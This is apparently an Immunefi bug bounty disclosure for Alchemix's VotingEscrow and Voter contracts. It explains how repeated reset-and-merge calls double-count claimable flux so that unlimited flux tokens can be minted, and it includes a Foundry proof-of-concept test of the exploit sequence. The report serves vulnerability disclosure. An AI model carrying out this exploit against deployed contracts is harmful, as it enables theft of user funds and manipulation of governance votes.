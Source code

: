 # 31280 - \[SC - Critical] Malicious user can mint unlimited flux tokens

Submitted on May 16th 2024 at 05:35:05 UTC by @MahdiKarimi for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31280

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:

* Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
* Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
* Theft of unclaimed yield

## Description

## Brief/Intro

A malicious user can mint unlimited flux by calling reset ( to receive claimable flux ) and merging it with another token and calling reset again to claim again and repeat this process and mint unlimited flux.

## Vulnerability Details

Users earn flux proportion to the amount of veALCX they hold at each epoch, they can use claimable flux for boosting voting power, mint flux tokens or add It to their unclaimed value through the reset function of the voter contract so they can use it in the future. The merge function ensures users didn't vote in the same epoch that they want to merge the token to prevent double calculation of claimable flux by checking `voted[]` mapping, however, users can call reset to receive claimable flux ( it's added to unclaimed flux ), since reset function sets voted to false and only updates lastVoted ( which doesn't affect merging ) user can merge the token with another token and receive the claimable amount again.

Scenario: A malicious user creates two different locks ( first with 100 locked value and second with 1 lock value ), flux per veALCX in this epoch is 1, user calls the reset function at voter contract and claims 100 flux for token1 and then merges token1 with the token2, and call reset for token2 and receives 101 flux ( while user received 100 flux before merge ), user earned 201 flux in this epoch instead of 101 tokens, user can create another small lock and merge the token2 with new lock and call reset again and repeat this process to mint unlimited flux.

## Impact Details

The attacker can use unlimited flux tokens to boost voting power and direct emission to a specific gauge ( direct theft of unclaimed yield )

Minting unlimited flux tokens leads flux price to 0 ( Direct theft of any user funds, whether at rest or in motion, other than unclaimed yield ) , the flux token is used as a reward for users but it's an ERC20 and can be traded in markets ( has some utilities ) so minting unlimited flux affects all flux holders ( not just rewarded users ) and leads to the loss of their assets that's why I believe it's considered direct theft of user funds.

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L183-L192 https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L618-L651

## Proof of Concept

```
      function testMintUnlimitedFlux() external {

        // create 2 lock tokens for user 
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);
        uint256 tokenId2 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);

        // calculate the amount flux tokens that user should be able to claim in this epoch 
        uint256 token1Flux = veALCX.claimableFlux(tokenId1);
        uint256 token2Flux = veALCX.claimableFlux(tokenId2);
        uint256 totalClaimable = token1Flux + token2Flux;

        // user calls reset for token1, so claimable flux for token 1 is added to unclaimed amount of token1 
        hevm.prank(admin);
        voter.reset(tokenId1);

        // user merges token1 and token2, so unclaimed amount of token1 is added to token2 unclaimed 
        hevm.prank(admin);
        veALCX.merge(tokenId1, tokenId2);

        // user calls reset for token2, so claiamble amount is added to unclaimed 
        // due to merge amount of token1 has been added to token2 and effects claimable flux despite that flux for that amount is being added to unclaimed flux already  
        hevm.prank(admin);
        voter.reset(tokenId2);

        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId2);
        // user has more flux that totalClaimable at first place 
        assert(unclaimedFlux > totalClaimable);
        // token1Flux is double claculated during claiming flux  
        // NOTE: used assert Approx due to precision loss during calculation of claimable amount 
        uint256 claimed = 2 * token1Flux + token2Flux;
        assertApproxEqAbs(claimed, unclaimedFlux, 100000000);

        // malicious user can repeat this to mint unlimited flux 
    }
```
